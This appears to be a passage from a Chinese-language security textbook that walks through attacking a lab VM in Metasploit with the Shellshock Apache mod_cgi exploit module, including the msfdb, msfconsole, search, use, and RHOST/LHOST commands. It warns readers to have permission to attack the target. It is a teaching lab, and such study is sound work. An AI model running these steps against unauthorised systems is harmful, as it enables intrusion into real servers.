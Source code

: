 图 10.14 – 我们的第一个 Metasploit 攻击脚本

在启动实际应用程序之前，让我们通过按 *Ctrl* + *X* 来保存我们的脚本并关闭文件，若希望保存文件，按 *Y*（希望你会保存；否则，你得重新输入一遍！）。现在，回到 Kali Purple 龙图标，鼠标悬停在**Exploitation Tools**区域上，然后从菜单中选择**Metasploit**。

你也可以直接从命令行调用 Metasploit。但在此之前，你应通过输入**sudo msfdb init**来初始化 Metasploit 数据库。原因是我们不想让你错过任何有趣的部分。我们将立即在这里使用 Metasploit 发起一次攻击。

一旦数据库初始化完成，通过输入**msfconsole**启动程序。当你执行此命令时，由于它包含庞大的漏洞和有效载荷数据库，可能需要一些时间来加载，如*图 10.15*所示：

![图 10.15 – Metasploit 初始化](img/B21223_10_15.jpg)

图 10.15 – Metasploit 初始化

现在 Metasploit 已经加载完毕，我们将找到并使用 Shellshock 漏洞。输入**search shellshock**来列出所有与该漏洞相关的攻击方式，如*图 10.15*所示。接下来，我们需要告诉 Metasploit 我们打算使用其中的哪种漏洞利用方式。我们将使用 Apache mod 版本。为此，输入**use exploit/multi/http/apache_mod_cgi_bash_env_exec**。接下来，我们需要告诉 Metasploit 攻击者机器和目标机器的 IP 地址。输入**set RHOST <target IP address>**，并确保你有权限攻击这个目标。可以像我们一样使用虚拟机的 IP 地址。然后，输入**set LHOST <attacker IP address>**，在我们的案例中，这是本地主机的 IP 地址：
